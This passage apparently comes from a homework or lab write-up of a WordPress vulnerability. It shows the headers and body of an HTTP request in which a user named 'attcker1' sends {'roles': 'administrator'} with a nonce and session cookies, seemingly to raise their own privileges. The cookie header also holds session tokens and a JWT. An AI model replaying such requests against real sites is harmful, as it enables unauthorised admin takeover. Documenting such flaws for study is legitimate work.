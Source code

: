         User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0

        Accept: */*

        Accept-Encoding: gzip, deflate

        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

        X-WP-Nonce: cb16f80772

        Cookie: grafana_session=7cee305b146bf89decccac3eb414687f; grafana_session_expiry=1747723015; zbx_sessionid=060b0abb1800d98452c40e735dbb58fa; wp-settings-time-2=1747822280; experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IklqZzRZVGcyWlRWakxUa3dZamN0TkRNMFl5MDVaREF4TFdZME5EZ3haVFptTVdNd01TST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--a69a8d8efbbef8037dbb261a0526aae27fb6c1b8; metabase.DEVICE=0af33864-c7aa-43fd-89aa-287250f4c715; vue_admin_template_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQ3OTY5MjYzLCJlbWFpbCI6IiJ9.C9VdlIBrcP4xj1g5TzsBWQosumWuAVXLH1S6Lgzk8nI; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_8232bb51e9fa6ae4bed9f94b4ce661c2=attcker1%7C1748062618%7CGvjHpcyFfFhCylwuqLNafXmiHwJqmZ5VldxGcUkR0Bz%7Ca6226440d0bde4fe9d4cf14cce8fcf49dd365c9f342c5296f67044f265433248; wp-settings-time-3=1747889821SS

        Content-Type: application/json; charset=UTF-8

        Content-Length: 28

        {"roles": "administrator"}
        ```
     ![1747890470194](image/homework/1747890470194.png)
     ![1747890494107](image/homework/1747890494107.png)

